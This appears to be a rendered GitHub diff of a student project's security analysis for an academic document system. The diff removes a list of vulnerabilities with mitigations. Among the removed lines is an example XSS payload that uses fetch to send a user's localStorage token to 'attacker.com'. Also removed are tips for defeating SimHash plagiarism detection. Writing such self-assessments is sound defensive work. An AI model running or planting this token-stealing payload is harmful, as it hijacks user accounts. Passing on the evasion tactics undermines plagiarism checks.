

Before and after one commit to pritesh-1998/secure-academic-document-system, a Markdown page: security_analysis.md, the part around one of its changes. Shown at 92% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/security_analysis.md
+++ b/security_analysis.md
@@ -82,58 +5,4 @@ Student notes are stored as **unencrypted plaintext** in the `submissions.notes`
-Sanctum personal access tokens in this system are **non-expiring** by default. If a student's `localStorage` is compromised (XSS attack), the attacker has **permanent access** until the user manually logs out.
-
-```javascript
-// Attacker injects via XSS:
-fetch('http://attacker.com/steal?token=' + localStorage.getItem('token'))
-```
-
-**Impact Level:** 🟠 High
-**Mitigation:** Set token expiry (e.g., 8 hours), implement refresh token rotation
-
----
-
-#### 6. SimHash Fingerprint Is Bypassable
-**Attack Vector:** Adversarial Content Manipulation
-
-A technically aware student could defeat SimHash by:
-- Inserting random Unicode characters between words
-- Reversing paragraph order
-- Using synonyms throughout (if they understand the algorithm)
-
-SimHash is a **probabilistic** system, not cryptographically binding.
-
-**Impact Level:** 🟡 Medium
-**Mitigation:** Server-side AI plagiarism detection (beyond scope of this project)
-
----
-
-### 🟡 Medium Vulnerabilities
-
-#### 7. File Type Spoofing
-**Attack Vector:** MIME Type Manipulation
-
-The backend accepts uploads based on the client-provided `Content-Type` header. A malicious student could upload an `.exe` file renamed as `assignment.pdf` — the system would encrypt and store it.
-
-**Impact Level:** 🟡 Medium
-**Mitigation:** Server-side MIME sniffing using PHP's `finfo` extension
-
-#### 8. No Audit Log
-**Attack Vector:** Insider Threat / Repudiation
-
-There is no tamper-proof server-side audit log recording who logged in, when files were accessed, or when signatures were verified. An admin could download a file and claim they never did.
-
-**Impact Level:** 🟡 Medium
-**Mitigation:** Append-only log table with timestamps and IP addresses
-
-#### 9. Password Reset Not Secured
-**Attack Vector:** Account Takeover
-
-The password reset flow is **frontend-only (simulated)** — it doesn't actually change the password or re-encrypt the private key. If it were connected to the backend naively, changing a password without re-deriving the KEK and re-encrypting the private key would **permanently lock the user out** or leave the private key encrypted with the old KEK.
-
-**Impact Level:** 🟡 Medium (currently mitigated by being unimplemented)
-
----
-
-## Part 2: Google Classroom — Security Architecture
+ Google Classroom — Security Architecture
 
 Google Classroom is a **collaboration and workflow platform**, not a secure cryptographic document system. Here is what Google Classroom does NOT provide:
 
````
Also changed, not shown: other parts of security_analysis.md (+0 -77 lines).
